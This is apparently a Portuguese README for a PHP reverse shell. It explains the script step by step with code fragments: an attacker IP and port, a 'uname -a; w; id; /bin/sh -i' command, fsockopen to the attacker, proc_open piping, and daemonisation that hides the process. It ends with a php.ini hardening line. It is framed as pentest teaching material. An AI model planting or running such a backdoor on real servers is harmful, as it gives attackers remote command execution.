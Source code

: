 
# 🐚 PHP Reverse Shell

Este repositório contém um script de **shell reversa em PHP**, adaptado e comentado em português, ideal para fins educacionais e testes de segurança autorizados.

---

## ⚠️ AVISO IMPORTANTE

Este código é **potencialmente perigoso** e pode ser utilizado de forma maliciosa. No entanto, ele também tem **aplicações legítimas** em testes de intrusão (pentest), auditorias de segurança e simulações ofensivas.

> ❗ **Nunca utilize este tipo de código em sistemas sem permissão explícita.**  
> O uso indevido pode violar leis locais e internacionais.  
> O autor **não se responsabiliza** por qualquer dano ou uso indevido.

---

## 🔍 O que o código faz — Explicado passo a passo

Este código é uma shell reversa, ou seja, um tipo de **backdoor** que faz com que o servidor PHP (vítima) se conecte a outro computador (atacante), oferecendo um terminal remoto com o mesmo privilégio do processo PHP (normalmente `www-data`, `apache`, etc.).

### 1. Configuração Inicial

```php
set_time_limit(0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // IP do atacante - deve ser alterado
$port = 1234;       // Porta do atacante - deve ser alterada
```

- `set_time_limit(0)` → desativa o limite de tempo do script (ele roda indefinidamente).
- `$ip` e `$port` → definem para onde o script PHP irá se conectar.

---

### 2. Comando Inicial

```php
$shell = 'uname -a; w; id; /bin/sh -i';
```

- Executa comandos úteis para identificar o sistema e depois inicia um shell interativo:
  - `uname -a` → informações do sistema operacional.
  - `w` → usuários logados.
  - `id` → UID e grupos do processo.
  - `/bin/sh -i` → shell interativo.

---

### 3. Daemonização (opcional)

```php
if (function_exists('pcntl_fork')) {
    $pid = pcntl_fork();
    ...
}
```

- Se possível, transforma o script em **daemon** (processo de segundo plano):
  - Oculta o processo.
  - Evita "zombies".
- Caso não seja possível, ele continua normalmente e exibe um aviso.

---

### 4. Conexão com o atacante

```php
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
```

- Abre uma conexão TCP para o IP/porta do atacante.
- Esse será o canal reverso para o shell.
- Se falhar, o script termina.

---

### 5. Execução do processo do shell

```php
$process = proc_open($shell, $descriptorspec, $pipes);
```

- Inicia um processo `/bin/sh -i` com entrada e saída redirecionadas para pipes.
- Permite redirecionar comandos e saídas via socket TCP.

---

### 6. Torna os streams não bloqueantes

```php
stream_set_blocking(..., 0);
```

- Evita que o script fique travado aguardando leitura ou escrita em um stream.

---

### 7. Loop de comunicação

```php
while (1) {
    ...
}
```

- Loop infinito que:
  - Lê dados do socket (comandos do atacante) → envia ao shell.
  - Lê saída do shell → envia de volta ao socket.
- Atua como um **proxy de terminal interativo** entre vítima e atacante.

---

### 8. Encerramento limpo

- Fecha todos os pipes, socket e termina o processo:
```php
fclose(...);
proc_close(...);
```

---

### 9. Função `printit()`

```php
function printit($string) {
    if (!$daemon) {
        print "$string\n";
    }
}
```

- Exibe mensagens de log no terminal **apenas se não estiver daemonizado**.
- Útil para depuração ou execução manual.

---

## ✅ Exemplos de uso legítimo

- Testes de segurança (pentest) com permissão da empresa/cliente.
- Simulações de ataque para avaliar respostas de segurança.
- Análises forenses e educacionais.

---

## 💡 Conclusão Técnica

Este script:

- Cria um canal de comunicação reverso (inbound no atacante, outbound na vítima).
- Permite execução remota de comandos em tempo real.
- Não depende que a vítima tenha portas abertas — apenas que o PHP tenha funções habilitadas.
- Muito útil em exploração de vulnerabilidades como RCE, LFI+log poisoning ou upload malicioso.

---

## 🛡️ Proteção recomendada

No `php.ini`, desative funções perigosas para evitar exploração:

```ini
disable_functions = proc_open, shell_exec, system, passthru, exec, popen, fsockopen
```

---

## 🧑‍💻 Autor

- [h4ckthreat](https://www.instagram.com/h4ckthreat/)

---

## 📄 Licença

Distribuído sob a [GNU GPL v3](https://www.gnu.org/licenses/old-licenses/gpl-3.0.html).
